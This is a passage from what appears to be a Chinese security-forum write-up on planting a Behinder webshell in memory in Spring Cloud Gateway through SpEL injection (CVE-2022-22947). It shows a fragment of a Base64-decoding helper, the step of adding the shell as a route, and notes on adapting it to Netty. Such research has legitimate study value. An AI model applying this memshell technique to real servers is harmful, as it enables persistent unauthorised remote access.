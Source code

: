 ```php
            bytes = (byte[]) obj;
        } catch (ClassNotFoundException e) {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            Method method = clazz.getMethod("decodeBuffer", String.class);
            Object obj = method.invoke(clazz.newInstance(), enString);
            bytes = (byte[]) obj;
        }
        return bytes;
    }

}
```

整体实现之后通过SPEL重新加入路由，冰蝎连接：

![image072.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-2e53b9a7d78a1a7a2ea53dd7d8d108c2a7334810.png)

**0x04** **主要点总结**
==================

1.channelRead方法中的HttpRequest和DefaultLastHttpContent是分两次获取的；  
2.HttpContent获取的body内容是分好几次获取的，最后一次获取body内容的类是DefaultLastHttpContent，之前的类是DefaultHttpContent；  
2.冰蝎中原生写response的办法不适用于netty，需要做类判断；  
3.netty中好像没有原生的Session对象（待考证），自写一种加密方式。

**0x05** **参考文章**
=================

<https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/>  
<https://y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/>